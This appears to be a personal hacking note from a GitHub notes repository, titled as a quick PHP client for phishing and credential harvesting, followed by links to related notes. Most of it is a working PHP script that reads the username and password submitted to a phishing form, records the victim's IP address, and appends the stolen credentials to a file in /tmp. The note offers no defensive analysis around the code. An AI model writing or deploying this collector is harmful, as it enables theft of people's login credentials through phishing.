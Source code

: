 # php quick client phishing attack credential harvesting
```php
<?php
// Turn off all error reporting
//error_reporting(0);

function get_ip() {
    if (function_exists('apache_request_headers')) {
      $headers = apache_request_headers();
    } else {
      $headers = $_SERVER;
    }
    if (array_key_exists('X-Forwarded-For',$headers) && filter_var($headers['X-Forwarded-For'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4)) {
      $the_ip = $headers['X-Forwarded-For'];
    } elseif (array_key_exists('HTTP_X_FORWARDED_FOR',$headers) && filter_var($headers['HTTP_X_FORWARDED_FOR'],FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
      $the_ip = $headers['HTTP_X_FORWARDED_FOR'];
    } else {
      $the_ip = filter_var($_SERVER['REMOTE_ADDR'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4);
    }
    return $the_ip;
  }

$password = $_POST['PasswordForm'];
$username = $_POST['UsernameForm'];


$ip = get_ip();
$browser = $_SERVER['HTTP_USER_AGENT'];
$host = $_SERVER['HTTP_HOST'];

if ($password != '') {
  $creds = $ip . '|' . $username . '|' . $password . "\n";
}

$myfile = fopen("/tmp/creds", "a") or die("Unable to open file!");
fwrite($myfile, $creds);
fclose($myfile);
?>
```
` zet/20221003150577/README.md `

# Related

- [20221018160416](/zet/20221018160416/README.md) credential harvesting concept

- [20221008215655](/zet/20221008215655/README.md) user account
- [20221008215530](/zet/20221008215530/README.md) username
- [20221008215325](/zet/20221008215325/README.md) password
- [20221007220451](/zet/20221007220451/README.md) hacking notes hub

Tags:

    
